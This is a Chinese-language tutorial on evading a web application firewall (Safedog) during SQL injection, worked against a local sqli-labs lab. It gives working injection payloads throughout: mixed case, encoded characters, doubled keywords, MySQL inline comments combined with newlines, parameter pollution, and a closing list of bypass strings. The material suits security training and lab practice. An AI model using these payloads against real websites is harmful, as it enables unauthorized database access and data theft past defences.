

# SQL注入之WAF绕过

### `WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。`


本环境需要安装安全狗以及火狐游览器+hackbar插件以便更改提交请求。

# 更改提交方式绕过

注意要使得post提交方式成功，后端首先必须支持接受post请求的数据，因此在php后端可以自己手动改为$_REQUEST既可接受get也可以接受post数据。

由于安全狗会对and进行敏感字屏蔽,如果更改为post请求，则有机会可以绕过

get请求会被安全狗拦截

	

更改为post请求

	

# 关键词大小写绕过

```
    有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用这一点来进行绕过

    举例： union select ---> unIOn SeLEcT
```

# 编码绕过

```
    针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等.

    举例：union select 1,2,3# =union%0aselect 1\u002c2,3%23
```

# 双写绕过

```
    部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，这时，我们可以通过双写来进行绕过。

    举例：UNIunionON ，SELselectECT anandd
```

```
http://localhost/sqli-labs-php7-master/Less-2/?id=-1 UNIunionON SELselectECT 1,2,3--+
```

曾经版本的waf可以绕过，新版本的安全狗无法绕过了。

	

# 换行(\N)绕过

一般可以配合内联注释实现绕过

```
    举例：select * from admin where username = \N union select 1,user() from admin
```

# 注释符内联注释绕过：

```

    /*!union*/ select
    注意:内联注释符里感叹号后面的内容会被mysql执行。
```

安全狗不允许post请求去查看数据库名

	

于是通过内联注释绕过

​	

由于安全狗版本过高，普通的内联已经无法绕过waf了。

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1 /*!union*/ select 1,2,3--+
```

	

必须使用复杂的内联才能绕waf,通过先注释于此同时又换行，从而使得骗过安全狗，把敏感字段注释了，实则换行后还可以继续执行。

```
注意:%0a在url中就是换行
http://localhost/sqli-labs-php7-master/Less-2/?id=-1 union /*!--+/*%0aselect/*!1,database(),3*/ --+
或者
下面这个用于混淆waf，其实与上一个url等价。
http://localhost/sqli-labs-php7-master/Less-2/?id=-1 union/*//--*/ /*!--+/*%0aselect/*!1,database(),3*/ --+
```

	

# 同义词替换

```
    and=&&

    or=||

    =(等于号)=<、>

    空格不能使用=%09,%0a,%0b,%0c,%0d,%20,%a0等

    注：%0a是换行也可以替代空格
```

# HTTP参污染

```
    对目标发送多个参数，如果目标没有对参数进行多次过滤，那么WAF对多个参数只会识别其中的一个。
    对于php+apache的场景下，只会识别last的参数。
```

比如给id传递多个参数，最后接收的是id=3.

	

由于php多参数是接受最后一个参数,所以id最后第二个，但是被waf检测到了，所以被拦截。

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1/*&id=-1 union select 1,2,3*/
```

	

### `WAF绕过的思路就是让WAF的检测规则，识别不到你所输入的敏感字符，利用上述所介绍的知识点，灵活结合各种方法，从而可以增加绕过WAF的可能性`

```
order by绕过：%20/*//--/*/  V4.0
联合绕过：union /*!--+/*%0aselect/*!1,2,3*/ --+
from绕过： /*!06447%23%0afrom*/
  
```

order by绕过sql注入语句

```
http://localhost/sqli-labs-php7-master/Less-2/?id=1  order/*//--/*/ by 1
```

	


